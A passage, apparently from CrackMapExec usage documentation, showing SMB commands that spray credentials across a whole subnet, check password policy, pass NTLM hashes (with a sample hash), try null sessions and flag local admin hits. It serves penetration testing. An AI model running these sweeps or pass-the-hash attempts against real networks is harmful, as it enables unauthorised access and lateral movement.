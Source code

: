 ```
```
#~ cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --pass-pol
```

---



# Authentication + Checking Credentials (Domain)


Failed logins result in a [-]  
Successful logins result in a [+] Domain\Username:Password

Local admin access results in a (Pwn3d!) added after the login confirmation, shown below.

```
	SMB         192.168.1.101    445    HOSTNAME          [+] DOMAIN\Username:Password (Pwn3d!)  
```

The following checks will attempt authentication to the entire /24 though a single target may also be used.

## User/Password


```
#~ cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE'
```

## User/Hash


After obtaining credentials such as  
Administrator:500:aad3b435b51404eeaad3b435b51404ee:13b29964cc2480b4ef454c59562e675c:::  
you can use both the full hash or just the nt hash (second half)

```
#~ cme smb 192.168.1.0/24 -u UserNAme -H 'LM:NT'
#~ cme smb 192.168.1.0/24 -u UserNAme -H 'NTHASH'
#~ cme smb 192.168.1.0/24 -u Administrator -H '13b29964cc2480b4ef454c59562e675c'
#~ cme smb 192.168.1.0/24 -u Administrator -H 'aad3b435b51404eeaad3b435b51404ee:13b29964cc2480b4ef454c59562e675c'
```

## Null Sessions


```
#~ cme smb 192.168.1.0/24 -u '' -p ''
```

If multiple domains are in play you may need to specify the target domain using -d  
For example authenticating to the domain labnet.com

```
#~ cme smb 192.168.1.0/24 -u UserNAme -p "PASSWORDHERE" -d LABNET
```

## Using Username/Password Lists


You can use multiple usernames or passwords by seperating the names/passwords with a space.

```